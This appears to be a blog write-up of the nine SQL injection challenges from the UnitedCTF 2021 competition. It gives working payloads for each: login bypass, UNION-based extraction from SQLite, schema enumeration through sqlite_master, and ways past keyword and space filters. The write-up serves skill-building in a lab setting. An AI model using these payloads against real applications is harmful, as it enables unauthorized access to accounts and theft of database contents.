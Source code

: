 
## SQL injection

I really liked this track, there was nine (relatively) easy challenges on SQL injection. There was a thorough explanation on how to do the first challenge and it allowed everyone to catch up and brush up their skills. Since I've already talked about [SQL injection in a previous blog](/will-hack-for-coffee/_posts/2021-03-15-full-database-exfiltration-oneliner.md) I'll skip right to the chase.

### SQLi 1: What's SQLi?

Each challenge involved a basic login page. Using Burp Suite helped me adjust my payload quickly and offered basic documentation.

![SQLi login](/will-hack-for-coffee/assets/images/unitedctf2021/sqli-login.png)

For the username field I used admin (as with all others SQLi challenges). For the password field I used this payload to get the first flag:
````
password" or 1=1 --
````
Note: I retried the injection on docker and I had to replace the " by ', so you may have to adjust your payload depending on your system. Which is weird since I tought Docker would make it system agnostic, oh well.

### SQLi 2: Only one

The way the challenges were designed you didn't have reflected injection in the page, if you had the correct payload you were forwarded to another page that had the flag. Brute forcing was not allowed but tools like sqlmap probably would not have worked anyway. We were told that the code validated that it returned only one result but that the admin still was the first in the table. So I used this payload instead:
````
password" or id=1 --
````

### SQLi 3: Maybe Burp can find it?

For the next challenge the admin was not in the first row so I used Burp intruder tab and specified id as my payload variable:

![burp-intruder](/will-hack-for-coffee/assets/images/unitedctf2021/burp-intruder.png)

Turned out his id was 2... xD

### SQLi 4: Union attack

There was then a series of challenge based on some variation that needed to use [union attack](https://portswigger.net/web-security/sql-injection/union-attacks). In this challenge the flag is in the flag table in the flag column. First, I found the number of column returned by the table using different column number, this payload didn't provoke errors:

````
" order by 3 --
````
Then I crafted this highly elaborated payload:
````
" UNION SELECT "","",flag from flag -- 
````

### SQLi 5: No union

This challenge is identical to the previous one except the key word UNION is filtered. This one made me smile because I already had solved something similar evading XSS filter. My payload from the previous challenge would be reconstructed after the filter would be applied:
````
" UNUNIONION SELECT "","",flag from flag -- 
```` 

### SQLi 6: What table?

Similar challenge except there is no filter and the table name is unknown. It was mentioned in the first challenge of the series that the database was SQLite3. That is relevant here because we will have to query the table name using the database schema which differs depending on the database. After a little bit of research I crafted this payload to find the name of the table:
````
" UNION SELECT "","",name from sqlite_master where sql like "%flag%" --
````
![table-name](/will-hack-for-coffee/assets/images/unitedctf2021/table-name.png)

With this info I found the flag like so:

````
 " UNION SELECT "","",flag from K953U0Ty4V --
````

### SQLi 7: Where the flag?

For this challenge neither the table or column name is known. So first:

````
" UNION SELECT "","",sql from sqlite_master --
...
CREATE TABLE "Ja93MjakS" (
            "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
            "Dab93JkA" VARCHAR)
...
````
Resulting in this payload:
````
" UNION SELECT "","",Dab93JkA from Ja93MjakS --
````

### SQLi 8: No flag

So there is a secret table with the column flag but there is a filter on the word flag. First, I needed to find the table name:
````
" UNION SELECT "","",sql from sqlite_master where sql like "%fla%" --
...
CREATE TABLE "cKretTblName" (
            "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
            "flag" VARCHAR
          )
...
````
So after a couple of trials and errors I found that payload. My union attack returns three columns and that table has only two columns so I returned an empty string instead.
````
" UNION SELECT "",* from cKretTblName --
````
 Would it really work in real life? I don't know but I got my flag.

 ### SQLi 9: No spaces for you

 The good news is that the flag is in the flag table within the flag column. As it was not ridiculous enough the DBA now filters all spaces. I've tried a lot of things for this one but turns out you can use comments instead of spaces:
 ````
"union/*comments*/select/*_*/"","",flag/*_*/from/*_*/flag/*more_comments*/--
 ````
So that was it for the SQL injection track.

[Back to main article](2021-10-09-unitedctf2021.md)


